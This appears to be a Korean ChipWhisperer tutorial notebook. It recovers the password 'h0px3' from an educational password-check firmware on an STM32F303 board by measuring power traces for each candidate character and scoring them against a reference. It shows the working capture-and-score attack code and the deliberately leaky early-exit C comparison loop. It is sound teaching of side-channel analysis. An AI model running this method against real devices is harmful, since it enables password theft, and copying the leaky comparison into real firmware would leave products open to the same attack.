# 01. 전력으로 비밀번호 깨기

같은 펌웨어에 입력 한 글자만 다르게 넣었습니다. 그런데 실제 전력 파형은 달라집니다. 그 차이만 사용해 교육용 금고의 비밀번호 `h0px3`를 복구해 보겠습니다.

이 노트북은 먼저 `h`와 `0`을 측정한 뒤, 비밀번호 공격용 185개를 직접 캡처합니다. 보드에 비밀번호 펌웨어가 있으면 그대로 사용하고, 다른 펌웨어가 올라가 있으면 시작할 때 한 번 다시 올립니다. 00을 건너뛰고 바로 실행해도 됩니다. 전체 187개 측정은 약 38초가 걸릴 것으로 예상됩니다.

In [1]:
import chipwhisperer as cw
import importlib
import matplotlib.pyplot as plt
import numpy as np

from cw_sca_tutorial.demo import repository_root
import cw_sca_tutorial.hardware as hardware

hardware = importlib.reload(hardware)
PasswordCaptureSession = hardware.PasswordCaptureSession

ROOT = repository_root()
devices = cw.list_devices()
assert len(devices) == 1, f"Expected one ChipWhisperer, found: {devices}"
try:
    session.finish()
except NameError:
    pass

session = PasswordCaptureSession(
    ROOT / "firmware/prebuilt/basic-passwdcheck-CWLITEARM.hex",
    gain_db=25.0,
    runs_root=ROOT / "runs",
    serial_number=devices[0]["sn"],
    platform_name="CWLITEARM",
    target_identification="STM32F303",
    program_firmware=False,
)
print("DATA SOURCE : MEASURED")
print("RUN         :", session.run.name)
print("TARGET      : STM32F303")
print("SCOPE       :", devices[0]["name"])
print("STATUS      : ready for cell-by-cell capture")

scope.gain.mode                          changed from low                       to high                     
scope.gain.gain                          changed from 0                         to 30                       
scope.gain.db                            changed from 5.5                       to 24.8359375               
scope.adc.basic_mode                     changed from low                       to rising_edge              
scope.adc.samples                        changed from 24445                     to 5000                     
scope.adc.trig_count                     changed from 1020270                   to 13171158                 
scope.clock.adc_src                      changed from clkgen_x1                 to clkgen_x4                
scope.clock.adc_freq                     changed from 24473579                  to 29538459                 
scope.clock.adc_rate                     changed from 24473579.0                to 29538459.0               
scope.clock.clkgen_

## 입력 한 글자가 만든 차이

`0`은 첫 비교에서 바로 틀립니다. `h`는 첫 글자가 맞아서 다음 글자까지 비교합니다. 이 셀을 실행하면 두 입력을 그 자리에서 측정합니다. 왼쪽에서는 전체 파형을 겹쳐 보고, 오른쪽에서는 차이가 가장 큰 구간을 확대합니다.



In [2]:
trace_h = session.capture("h")
trace_0 = session.capture("0")
reference = trace_0

difference = np.abs(trace_h - reference)
window = 120
rolling = np.convolve(difference, np.ones(window), mode="valid")
start = int(np.argmax(rolling))
zoom = slice(max(0, start - 80), min(len(reference), start + window + 80))

fig, axes = plt.subplots(1, 2, figsize=(15, 4))
axes[0].plot(trace_0, label="Candidate 0", alpha=.8)
axes[0].plot(trace_h, label="Candidate h", linewidth=1.5)
axes[0].set(title="Measured password traces", xlabel="Sample", ylabel="ADC count")
axes[0].legend()
axes[1].plot(np.arange(len(reference))[zoom], trace_h[zoom] - reference[zoom], label="h - reference")
axes[1].axhline(0, color="black", linewidth=.7)
axes[1].set(title="Largest difference window", xlabel="Sample", ylabel="ADC difference")
axes[1].legend()
plt.show()

## 왜 다음 비교로 넘어갈까요?

펌웨어는 앞에서부터 문자를 비교하고 첫 불일치에서 멈춥니다.

```c
for (i = 0; i < sizeof(correct_passwd); i++) {
    if (correct_passwd[i] != passwd[i]) {
        break;
    }
}
```

맞는 접두사가 길수록 비교 루프를 더 오래 실행합니다. 이 실행 경로 차이가 전력 파형에 남습니다.

## 후보 점수 계산 함수

각 위치에서 항상 틀리는 기준 입력을 한 번 측정하고 36개 후보를 차례로 캡처합니다. 기준 파형과 후보 파형의 절댓값 차이 합(SAD)을 점수로 사용합니다.

In [3]:
alphabet = "abcdefghijklmnopqrstuvwxyz0123456789"

def capture_candidate_scores(prefix):
    reference = session.capture(prefix + "")
    scores = []
    for candidate in alphabet:
        wave = session.capture(prefix + candidate)
        scores.append(np.sum(np.abs(wave - reference)))
    return np.asarray(scores)

print("Ready: one reference + 36 candidates per position")

Ready: one reference + 36 candidates per position


## 비밀번호 전체 복구

이 셀 하나가 다섯 위치를 순서대로 공격합니다. 위치 하나의 캡처가 끝날 때마다 현재 후보 점수, 누적 heatmap, 복구된 접두사가 아래에 하나씩 쌓입니다.











Recovered password: h0px3
Saved run: /Users/reo/Documents/Repository/chipwhisperer-tutorial/runs/20261023T030658Z-password-interactive


In [4]:
from IPython.display import display
import time

prefixes = []
score_rows = []
prefix = ""
completed_run = None
try:
    for position in range(5):
        scores = capture_candidate_scores(prefix)
        score_rows.append(scores)

        selected_index = int(np.argmax(scores))
        prefix += alphabet[selected_index]
        prefixes.append(prefix)

        heatmap = np.full((5, len(alphabet)), np.nan)
        heatmap[:len(score_rows)] = np.stack(score_rows)
        fig, axes = plt.subplots(
            1,
            3,
            figsize=(17, 4),
            gridspec_kw={"width_ratios": [3, 2.2, 1.2]},
        )
        bars = axes[0].bar(list(alphabet), scores, color="#4c78a8")
        bars[selected_index].set_color("#e45756")
        axes[0].set(
            title=f"Position {position + 1}: selected '{alphabet[selected_index]}'",
            xlabel="Candidate",
            ylabel="Full-trace SAD",
        )
        image = axes[1].imshow(heatmap, aspect="auto", cmap="magma")
        axes[1].set_xticks(range(len(alphabet)), list(alphabet))
        axes[1].set_yticks(range(5), ["1", "2", "3", "4", "5"])
        axes[1].set(title="Accumulated scores", xlabel="Candidate", ylabel="Position")
        fig.colorbar(image, ax=axes[1], label="SAD")
        axes[2].axis("off")
        axes[2].text(.5, .88, "Recovered", ha="center", fontsize=14)
        axes[2].text(.5, .72, prefix, ha="center", fontsize=30, weight="bold", color="#e45756")
        axes[2].text(.5, .48, "\n".join(prefixes), ha="center", va="top", fontsize=15, family="monospace")
        display(fig)
        plt.close(fig)
        if position < 4:
            time.sleep(.8)
finally:
    completed_run = session.finish()

assert prefix == "h0px3"
print("Recovered password:", prefix)
print("Saved run:", completed_run)